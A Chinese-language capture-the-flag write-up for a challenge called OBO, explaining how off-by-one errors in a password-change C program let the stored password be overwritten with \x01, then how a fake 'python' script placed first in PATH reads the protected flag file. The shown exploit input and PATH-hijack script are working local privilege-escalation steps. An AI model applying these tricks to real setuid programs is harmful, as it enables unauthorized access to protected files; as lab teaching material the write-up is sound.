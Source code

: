 # OBO
能看出這個[更改密碼的程式碼](obo.c)在許多地方，有邊界錯誤：
 * generate_hex_table：
```c
hex_table[256];
...
for (i = 0; i <= 256; ++i) hex_table[i] = -1;
for (i = 0; i <= 10; ++i) hex_table['0' + i] = i;
for (i = 0; i <= 6; ++i) hex_table['a' + i] = 10 + i;
for (i = 0; i <= 6; ++i) hex_table['A' + i] = 10 + i;
// I don't know why, but I was getting errors, and this fixes it.
hex_table[0] = 0;
```
 * hint：如果能找出為何會產生error，和為何加上`hex_table[0] = 0;`，就能讓程式正常運行的原因，就可以破解這關了。
 * 在檢查新輸入的密碼是否夠複雜的程式碼：
```c
for (i = 0; i <= strlen(new_password); ++i) {
	int index = hex_table[(unsigned char) new_password[i]];
	if (index == -1) {
	   printf("Invalid character: %c\n", new_password[i]);
	   exit(1);
	}
	digits[index] = 1;
}
```
 * 可以看到因為邊界錯誤，把不該檢查的結束字元'\0'也做複雜度檢查，這就是為什麼上面要加入`hex_table[0] = 0;`才會正常運行的原因。
 * 同理，也可以看到digits的邊界也超出了一格，這超出的一格會以**int長度為單位**複寫stack上緊鄰的東西，也就是password！
 * 而sizeof(int) = 4 byte，sizeof(char) = 1 byte
  * ==> password的前四格會被覆寫成[1][0][0][0]，也就是說password變成了：*\x01*！
 * 那麼，接下來只剩下更改password的部份了。但很不幸的，這部份還沒有implement，我們需要找其他方法。
 * 仔細看一下呼叫python的code：`snprintf(cmd, sizeof(cmd), "python set_password.py \"%s\"", password);`，是用相對路徑開啟，所以說不定我們能複製創一個set_password.py在另一個目錄下，印出flag：
```bash
#!/bin/sh
cat /home/obo/flag.txt
```
  我放到自己的目錄底下/home_users/pico62895，但很可惜，obo在這裡不能開啟password所以失敗，早該預料到的。
 * 那麼剩下調整環境變數，創一個叫作python的script檔，在export到PATH中：
```bash
pico62895@shell:~$ vim python
#!/bin/sh
cat /home/obo/flag.txt
pico62895@shell:~$ chmod +x python
pico62895@shell:~$ export PATH=/home_users/pico62895:$PATH
#!/bin/sh
cat /home/obo/flag.txt
```
 * 取得flag
```bash
pico62895@shell:~$ (echo -e "123456789abcdefg\n\x01") | /home/obo/obo
New password: Confirm old password: watch_your_bounds
Password changed!
```
